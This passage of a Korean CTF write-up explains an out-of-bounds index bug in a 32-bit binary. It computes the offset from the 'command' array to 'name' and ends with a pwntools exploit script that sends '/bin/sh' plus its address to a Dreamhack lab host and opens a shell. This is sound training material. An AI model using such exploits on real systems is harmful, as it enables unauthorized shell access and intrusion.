 헷갈린 점은 `system("/bin/sh");` 자체도 문자열이 전달되는게 아닌가 했는데, 해당 코드가 존재하는 바이너리를 보면 `rdi`에 `"/bin/sh"` 문자열 자체가 아닌 해당 문자열 리터럴을 가리키는 주소가 전달된다.

`command[idx]`로 배열의 인덱스를 통해 전달하면 해당 배열의 주소가 아닌 해당 배열에 저장된 값이 전달되므로, `command[idx]`에는 `"/bin/sh"`이 저장된 주소를 전달해야 한다.

**인덱스로 전달하면 원소인 문자열 리터럴 자체가 전달되고, 만약 command로 전달하면 배열의 주소가 전달되는 차이점을 기억하자**

<br>

## 3. **name**, **command** 오프셋 계산

<img width="481" alt="image" src="https://github.com/user-attachments/assets/5c39dd9b-014c-4405-b771-14a022b8af1c">

`command`를 기준으로 `name`이 `76` 만큼 떨어져 있는 것을 알 수 있다. 처음에는 `char *`의 크기가 `8bytes`이므로 `76`만큼 떨어져있으면 오프셋으로 딱 나누어지지 않아서 안되는가라는 생각을 했는데 `checksec`으로 확인해보면 해당 바이너리가 `32-bit`이다.\
(참고로, 이번 문제에서 `idx`의 주소는 필요 없긴 하지만 `gcc -g` 옵션을 주지 않으면 바이너리를 gdb로 디버깅 할 때, `print`가 안먹히긴 한다.)

<img width="639" alt="image" src="https://github.com/user-attachments/assets/0133d28a-0e64-4bca-931f-efb04146775f">

따라서, `char *`의 크기가 `4bytes` 이기 때문에 `scanf("%d", &idx);`를 통해 `name[8]`을 가리키는 `(76 + 8) / 4 = 21`, `idx`에 `21`를 입력해주면 쉘을 획득할 수 있음을 알 수 있다.

<br>

## Exploit 

주의할 점은 `name`에 `"/bin/sh"`을 입력해줄 때, 오프셋으로 접근하기 위해 8바이트 단위로 끊어야 하기 때문에 `b"/bin/sh"` 7바이트에 `b"\x00"` 1바이트를 추가해줘야 된다.

그리고, `name[0]`의 주소는 해당 바이너리에 `PIE`가 적용되어 있지 않기 때문에 데이터 영역도 랜덤화되지 않아서, 고정 가상 주소를 통해 접근할 수 있기 때문에 위에서 본 `name`의 주소인 `0x804a0ac`를 대입해주면 된다.

```py
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 14448)

payload = b"/bin/sh" + b"\x00"  # 8바이트를 맞춰주기 위해 b'\x00'을 추가해줘야함
payload += p32(0x804A0AC) # name의 주소 (system의 인자에는 "/bin/sh" 문자열 자체가 아닌 해당 문자열의 주소가 들어가야함)
p.send(payload)

# &name - &command = 76 이므로, 32-bit에서 char *의 크기인 4byte만큼 index 19차이가 나고, name의 주소는 8byte 뒤에 입력되어 있어서 4byte만큼 2번 더 가야함
idx = 19 + 2
p.sendline(str(idx).encode())  # scanf("%d")에 입력하기 때문
# p.sendline(b'21')             # 그냥 이렇게 써도 됨

p.interactive()
```
